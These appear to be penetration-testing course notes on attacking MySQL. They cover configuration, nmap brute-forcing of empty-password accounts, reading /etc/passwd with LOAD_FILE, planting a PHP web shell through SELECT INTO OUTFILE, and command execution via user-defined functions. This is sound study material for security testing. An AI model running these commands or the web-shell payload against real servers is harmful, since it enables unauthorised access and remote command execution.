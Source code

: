 # MYSQL attacks

### Default Configuration

```shell-session
sudo apt install mysql-server -y
```

```shell-session
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

```shell-session
[client]
port		= 3306
socket		= /var/run/mysqld/mysqld.sock

[mysqld_safe]
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
nice		= 0

[mysqld]
skip-host-cache
skip-name-resolve
user		= mysql
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
port		= 3306
basedir		= /usr
datadir		= /var/lib/mysql
tmpdir		= /tmp
lc-messages-dir	= /usr/share/mysql
explicit_defaults_for_timestamp

symbolic-links=0

!includedir /etc/mysql/conf.d/
```

### Dangerous Settings

| **Settings**       | **Description**                                                                                              |
| ------------------ | ------------------------------------------------------------------------------------------------------------ |
| `user`             | Sets which user the MySQL service will run as.                                                               |
| `password`         | Sets the password for the MySQL user.                                                                        |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.            |
| `debug`            | This variable indicates the current debugging settings                                                       |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations.                              |

### Footprinting the Service

```shell-session
 sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 00:53 CEST
Nmap scan report for 10.129.14.128
Host is up (0.00021s latency).

PORT     STATE SERVICE     VERSION
3306/tcp open  nagios-nsca Nagios NSCA
| mysql-brute: 
|   Accounts: 
|     root:<empty> - Valid credentials
|_  Statistics: Performed 45010 guesses in 5 seconds, average tps: 9002.0
|_mysql-databases: ERROR: Script execution failed (use -d to debug)
|_mysql-dump-hashes: ERROR: Script execution failed (use -d to debug)
| mysql-empty-password: 
|_  root account has empty password
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26-0ubuntu0.20.04.1
|   Thread ID: 13
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, SupportsTransactions, Speaks41ProtocolOld, LongPassword, DontAllowDatabaseTableColumn, Support41Auth, IgnoreSigpipes, SwitchToSSLAfterHandshake, FoundRows, InteractiveClient, Speaks41ProtocolNew, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: YTSgMfqvx\x0F\x7F\x16\&\x1EAeK>0
|_  Auth Plugin Name: caching_sha2_password
|_mysql-users: ERROR: Script execution failed (use -d to debug)
|_mysql-variables: ERROR: Script execution failed (use -d to debug)
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:00:00:00:00:00 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds
```

### MySQL - Read Local Files in MySQL

```shell-session
 select LOAD_FILE("/etc/passwd");
```

```shell-session
+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<SNIP>

```

* https://www.w3resource.com/mysql/string-functions/mysql-load\_file-function.php

### Write Local Files

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

* In `MySQL`, a global system variable [secure\_file\_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar\_secure\_file\_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD\_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function\_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv\_file) privilege.
* `secure_file_priv` may be set as follows
  * If empty, the variable has no effect, which is not a secure setting.
  * If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
  * If set to NULL, the server disables import and export operations.
* In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

**MySQL - Secure File Privileges**

```shell-session
 show variables like "secure_file_priv";
```

### User Defined Functions

* `MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL
  * there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib\_mysqludf\_sys).
  * It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.
